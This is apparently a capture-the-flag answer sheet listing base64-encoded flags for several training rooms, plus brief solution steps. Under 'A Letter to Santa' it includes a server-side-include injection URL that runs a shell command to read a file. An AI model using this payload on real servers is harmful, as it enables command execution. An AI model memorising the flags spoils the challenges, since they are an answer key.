 ### May The Fourth
#### Mal Wars
- flag{ZXZpbGVtcGlyMy5leGU=}
- flag{MzNkYTNhZGZmNDQ4ZmI1OTYzYzUyYmI5Mzk3NzdmN2E=}

#### It's a Trap!
=> https://justhack.in/shell-escapes-cheatsheet
- flag{Y2Q1ZTE0OGVkYjE2OTYwODQ3NzU0MGM4NDc0NWQ4NWE=}

#### Order 66
=> jne (0x14ba)
vi -b order
:!xxd
i
esc
:wq
xxd -r order order2
chmod +x order2
./order2
- flag{N2YyN2ZmZmE2OTEwMGUyYmNhOWRkYTQzOTBhY2IyZmE=}

#### Rebel Intercept
=> nc -lvp 1337 -s 127.0.0.1
- flag{U29tZXRoaW5nLCBTb21ldGhpbmcsIFNvbWV0aGluZywgRGFyayBTaWRl}

#### Trash Talk
C-3PO: Are you there, sir?
Luke: 3PO!
C-3PO: We've had some problems...
Luke: Will you shut up and listen to me? Shut down all garbage mashers on the detention level, will you? Do you copy? Shut down all the garbag
e mashers on the detention level!
- flag{MmY0ODYw}



### A Christmas Catastrophe
#### The Grotto:
- flag{YmRmMDk0}

#### Present Pandemonium
=> jq -s '.[1337]' presents.json
- flag{QW50b25pbw==}
- flag{SmVyc2V5}
- flag{MTYy}
- flag{MC4zMQ==}
- flag{OTk5OS45MQ==}
- flag{YjZjMTVm}


#### Santa's Sleighdar
- flag{OWQzZmM1}

#### Elf in a Shell(f)
- flag{OWRhNWE2}

#### Let It Snow
- not solved

#### Santa's Naughty List
- flag{bmFtZXM=}
- flag{MTMzNA==}
- flag{MjY2Ng==}
- flag{MGEzZGEw}
- flag{MjA5Ng==}
- flag{MjE2Mw==}

#### A Christmas Phish
- flag{ODRkOTNybjFuajRAZ2VuZXJpY2VsZm1haWwub3Jn}
- flag{bmV3c0BuYXRpb25hbGVsZndvcmtlcnN1bmlvbi5jaHJpc3RtYXM=}
- flag{VG05MGFHbHVaeUIwYnlCelpXVWdhR1Z5WlEub25pb24=}
- flag{RnJlZGR5IE1jRmx1ZmY=}

#### A Letter to Santa
http://10.102.188.182/letter.php?message=%3C!--%23exec+cmd%3D%22cat+/etc/user.txt%22+--%3E
- flag{YmFhYjZh}

#### Kringle Inc.
- flag{THVtcCBvZiBjb2Fs}
- flag{SGFycnkgJiBNYXJ2}
- flag{RWdn}


### Kate's Story
#### Kate's Story: Ep.1
- flag{MTQvMDcvMjAxOCAxMzowMDowMw==}
- flag{Q2Fub24gRU9TIDZE}
- flag{U2FsbHkgTWljaGFlbHM=}
- flag{NTHDgsKwIDI2JyAzNi45IiBOb3J0aCwgMsOCwrAgMzgnIDE3LjMiIFdlc3Q=}
- flag{QXNodG9uIENvdXJ0}
- flag{MTkvMDMvMjAxOQ==}
- flag{MTA6NTE6MDQ=}
- flag{QSBjYXIgd2luZG93}

#### Kate's Story: Ep.2
- flag{eG1s}
- flag{MjU2}
- flag{cHlkb2MucHk=}
- flag{MDZjMTY0}

#### Kate's Story: Ep.3
- flag{QmFja2dyb3VuZCBjaGFuZ2VzLCBmaWxlcyBkZWxldGVkLCBwb3B1cCBib3ggYXBwZWFycw==}
- flag{UG93ZXJTaGVsbA==}
- flag{V2FsbHBhcGVy}
- flag{YS5wczE=}

#### Kate's Story: Ep.4
- flag{MHgxMDYw}
- flag{NDY2Mw==}
- flag{cG93ZXJzaGVsbC5leGU=}
- flag{NToyMjowMQ==}
- flag{NTQ=}
- flag{b3V0bG9vay5leGU=}
- flag{NDkxNg==}
- flag{QzpcXFVzZXJzXFxJTUxVc2VyXFxhLnBzMQ==}
- flag{MTcyLjE2LjEwMS4xNDU=}
- flag{RlRQ}
- flag{ZGF2ZTEyMw==}
- flag{TWljaGVsbGUvRGVza3RvcA==}
- flag{cGFzc3dvcmRzLnR4dA==}
- flag{SUxvdmVNeUtpZHMxMjM=}
- flag{aGFja2VyLmV4ZQ==}
- flag{MTE6NTk6NTM=}


### Omnipotent Productions
#### Omnipotent Productions: Ep.1 – Log Analysis
- flag{QSBwb3J0IHNjYW4=}
- flag{MjE=}
- flag{RlRQ}
- flag{My4wLjM=}
- flag{cm9vdA==}

#### Omnipotent Productions: Ep.2 – FTP Server Hardening
- flag{ZDUyYmRk}

=> sudo -l
=> sudo chmod 750 /home/*/
- flag{NWU1NjMw}

#### Omnipotent Productions: Ep.3 – OSINT
- flag{cnVzc2VsamFja19MMzN0}
- flag{QnJpc3RvbA==}
- flag{MjMvMDc=}
- flag{NjE3MQ==}
- flag{MQ==}
- flag{QWxleCBTbGF0ZXI=}

#### Omnipotent Productions: Ep.4 – Packet Analysis
- flag{MTcyLjE3LjAuMw==}
- flag{VHJ1ZQ==}
- flag{U2FtLkI=}
- flag{RlRQLURBVEE=}
- flag{MjAyMS0wNy0yNyAxNzoyOTowNQ==}
- flag{ZFIwcmFuRzM=}

#### Omnipotent Productions: Ep.5 – Forensics
- flag{SW52b2ljZQ==}
- flag{MjAyMS0wNy0zMCAxMDoxNzoxMw==}
- flag{QmFzZTY0}
- flag{VVhCOWFoQ1I=}
- flag{YWxleC5zbGF0ZXIub21uaXBvdGVudHByb2R1Y3Rpb25zQG91dGxvb2suY29t}
- flag{TGVnaW9uT2ZDaGFvczdAb3V0bG9vay5jb20=}
- flag{MC4x}
- flag{M2FhYTg=}

#### Omnipotent Productions: Ep.6 – Theory
- not solved